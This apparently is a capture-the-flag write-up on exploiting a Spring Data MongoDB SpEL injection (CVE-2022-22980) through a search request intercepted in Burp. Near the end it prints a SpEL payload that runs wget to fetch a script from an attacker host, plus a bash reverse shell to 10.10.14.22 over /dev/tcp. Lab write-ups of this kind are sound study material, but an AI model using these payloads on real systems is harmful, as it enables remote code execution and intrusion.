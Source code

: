   

### SpringData ✅

![[/Untitled 19 3.png|Untitled 19 3.png]]

Ín the source code

![[/Untitled 20 3.png|Untitled 20 3.png]]

This is the default error page of SpingBoot Framework

![[/Untitled 21 3.png|Untitled 21 3.png]]

Looking for mongodb springboot vulnerability I found

> [!info] Spring Data MongoDB SpEL Expression Injection Vulnerability (CVE-2022-22980)  
> Level up your Java code and explore what Spring can do for you.  
> [https://spring.io/blog/2022/06/20/spring-data-mongodb-spel-expression-injection-vulnerability-cve-2022-22980](https://spring.io/blog/2022/06/20/spring-data-mongodb-spel-expression-injection-vulnerability-cve-2022-22980)  

If we look for a PoC or a exploit for this CVE

> [!info] Spring_cve-2022-22980/payload at main · Vulnmachines/Spring_cve-2022-22980  
> spring data mongodb remote code execution | cve-2022-22980 poc - Vulnmachines/Spring_cve-2022-22980  
> [https://github.com/Vulnmachines/Spring_cve-2022-22980/blob/main/payload](https://github.com/Vulnmachines/Spring_cve-2022-22980/blob/main/payload)  

Now with the request we intercepted in Burp lets paste the payload after we do some changes

![[/Untitled 22 3.png|Untitled 22 3.png]]

![[/Untitled 23 2.png|Untitled 23 2.png]]

This was not posible so ill try to create the script and then download it in the victim machine.  
Now what worked for me is that I captured the POST request of the search bar and there I injected the payload.  

Finally i have to download the script to victim’s machine i injected the RCE wget and used python server

![[/Untitled 24 2.png|Untitled 24 2.png]]

DOES NOT WORKS  
This is the payload used for this exploitation of SpEL  

`T(java.lang.Runtime).getRuntime().exec("wget http://<Attacker_IP>:<PORT>/script -o /dev/shm/script")`

As seen, I'm using the temporary directory /dev/shm but is it also possible to use /tmp

This is the how I created the script binary.

```Python
cat > script <<EOF
bash -i &>/dev/tcp/10.10.14.22/7777 0>&1
EOF
```
